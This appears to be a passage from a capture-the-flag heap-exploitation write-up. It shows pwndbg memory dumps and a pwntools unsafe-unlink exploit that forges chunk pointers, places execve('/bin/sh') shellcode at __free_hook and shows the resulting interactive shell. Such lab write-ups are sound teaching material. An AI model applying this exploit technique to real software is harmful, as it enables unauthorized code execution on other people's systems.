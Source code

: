 ```
pwndbg> dq __free_hook 10
0000555555757020     90909090909016eb 9090909090909090
0000555555757030     00007ffff7dd6790 010101010101b848
0000555555757040     68632eb848500101 0431480169722e6f
0000555555757050     f631d231e7894824 000000050f583b6a
0000555555757060     0000000000000000 0000000000000000
```
An problem is that our FD has been written into the middle of our shellcode.

Fortunely by disassembling the first part of our shellcode with the 'u' command, we see that this
shellcode already accounts for this by using its first two bytes to jump over the corruption.

```
pwndbg> u __free_hook
 ► 0x555555757020    jmp    0x555555757038                <0x555555757038>
 
   0x555555757022    nop 
   0x555555757023    nop 
   0x555555757024    nop 
   0x555555757025    nop 
   0x555555757026    nop 
   0x555555757027    nop 
   0x555555757028    nop 
   0x555555757029    nop 
   0x55555575702a    nop 
   0x55555575702b    nop
```

## Prepare exploit

```
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

fd = libc.sym.__free_hook - 0x18
bk = heap+0x20
prev_size = 0x90
fakse_size = 0x90
edit( chunk_a, p64(fd)+p64(bk)+shellcode+ p8(0)*(0x70-len(shellcode))+p64(prev_size)+p64(fakse_size) )
free(chunk_b)
free(chunk_a)

[*] Switching to interactive mode
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0xb bytes:
    b'user-pwn18\n'
user-pwn18
$ hostname
[DEBUG] Sent 0x9 bytes:
    b'hostname\n'
[DEBUG] Received 0xa bytes:
    b'userpwn18\n'
userpwn18
$  

```
